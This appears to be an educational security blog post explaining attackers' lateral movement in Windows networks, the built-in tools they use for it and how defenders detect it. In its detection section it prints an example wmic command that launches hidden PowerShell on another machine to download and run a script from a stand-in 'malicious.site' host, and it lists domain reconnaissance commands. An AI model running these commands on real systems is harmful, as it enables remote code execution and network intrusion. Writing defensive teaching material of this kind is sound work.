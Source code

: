 ```yaml
---
title: "Lateral Movement"
date: 2025-05-02
tags: ["malware", "strategy", "cybersecurity"]
---
```


Once a hacker has gained access to a system through their path of choice, the next usual step is to try and gain access to other—usually more high-profile machines on the network. This process is known as **lateral movement**, and it can be done in a variety of ways. To be more specific about *why* hackers do this, let’s talk about the advantages of gaining access to other machines.

### Why?

- Gain access to more privileged accounts  
- Reach valuable data (like on a file server)  
- Spread persistence across the network (creating re-entry points or backdoors)  

Having skill in lateral movement is arguably one of the most important things for a hacker. It’s their ability to *move* through the environment once they get in, and it must be done with precision and stealth. It’s also where many attackers get caught, since they can leave plenty of breadcrumbs along the way.

Sometimes they’ll just get into a system and monitor common processes and behaviors for a while. This helps them build a plan for how best to navigate the network undetected. Usually, they’ll use techniques like LotL (Living off the Land)—[which I wrote about here](../living-off-the-land-attack/)—to stay hidden.

### How?

Hackers usually use LOLBins to evade detection. Some of the tools are as follows:

- **PsExec**  
A remote command execution tool in SysInternals. Often used to run or spawn shells on other machines.

- **WMI (`wmic`)**  
Used to query remote systems or start processes across the network.

- **RDP**  
Used to log in like a real user, assuming credentials have been found or stolen.

- **WinRM**  
Remote PowerShell execution used in enterprise environments.

### Detection

Detecting lateral movement is tricky because it uses legitimate, trusted tools and real credentials. However, defenders can look for patterns that suggest something suspicious is happening under the surface.

---

#### 1. Unusual Parent-Child Process Relationships

When a hacker is on a machine, they may be using LOLBins, but the **way** those tools are used can give them away. One way defenders detect this is by looking at **which process started another**—also known as parent-child process relationships.

Let’s say we see this process chain in a system:
```bash
winword.exe → cmd.exe → powershell.exe → wmic.exe
```
- `winword.exe → cmd.exe` implies there was likely a macro embedded in a Word document (probably from a phishing email).
- That macro launches `cmd.exe`, which runs `powershell.exe`.
- PowerShell can then download a payload, and finally `wmic.exe` is used for the **lateral movement**.

Here’s an example command that might be executed via `wmic.exe`:
```bash
wmic /node:"10.0.0.12" process call create "powershell -NoP -W Hidden -C IEX(New-Object Net.WebClient).DownloadString('http://malicious.site/payload.ps1')"
```
- `/node:"10.0.0.12"` → Targets another machine on the network.  
- `process call create` → Asks that machine to run a new process.  
- `"powershell -NoP -W Hidden -C IEX(...)"` → Starts a hidden PowerShell instance that:  
  - `-NoP`: No profile (faster, stealthier)  
  - `-W Hidden`: Hides the PowerShell window  
  - `IEX(...)`: Downloads and runs a malicious PowerShell script in memory  

---

#### 2. New or Rare Use of Lateral Tools

Tools like `PsExec`, `wmic`, `winrm`, and PowerShell remoting are normally used by system admins—but only in certain environments and contexts. Defenders might set up alerts for their use in unexpected locations, or flag activity that doesn’t match the usual user behavior. Sudden or anomalous use of these tools is a red flag that lateral movement could be underway.

---

#### 3. Login Anomalies

Things like **multiple login attempts**, **a low-privilege user suddenly logging into many machines**, or **remote logins at odd hours** (e.g., an HR employee remoting in at 3 AM) are classic indicators of lateral movement.

---

#### 4. Suspicious Recon Activity

These commands are often used to **map the network** and **identify valuable targets**:
```bash
net view /domain
net use
net group "Domain Admins" /domain
```
They aren’t commands a normal user would ever run, and they often precede lateral movement.

---